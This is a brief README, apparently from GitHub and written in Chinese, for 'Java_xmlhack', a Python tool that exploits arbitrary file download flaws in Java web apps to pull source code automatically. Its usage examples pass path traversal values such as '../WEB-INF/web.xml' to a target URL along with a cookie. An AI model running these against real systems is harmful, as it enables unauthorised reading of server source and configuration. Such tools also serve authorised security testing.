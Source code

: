 # Java_xmlhack
帮助java环境下任意文件下载情况自动化读取源码的小工具

## 使用
```bash
git clone https://github.com/Artemis1029/Java_xmlhack.git
cd Java_xmlhack
# if get
python xmlsearch.py -u https://xxx.xxx/?file=../WEB-INF/web.xml -c="cookie"
# if post
python xmlsearch.py -u https://xxx.xxx/ -d="file=../WEB-INF/web.xml" -t="content-type(default application/x-www-form-urlencoded)" -c="cookie"
```
